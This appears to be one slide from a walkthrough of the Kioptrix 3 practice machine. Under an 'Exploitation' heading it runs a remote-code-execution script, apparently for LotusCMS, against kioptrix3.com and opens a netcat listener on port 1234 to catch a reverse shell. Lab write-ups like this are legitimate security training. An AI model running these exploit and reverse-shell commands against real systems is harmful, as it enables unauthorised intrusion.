

Exploitation

Run the script again
./lotusRCE.sh kioptrix3.com
Before supplying an IP, I need reverse shell.
Create listener on port 1234
rlwrap nc -lvp 1234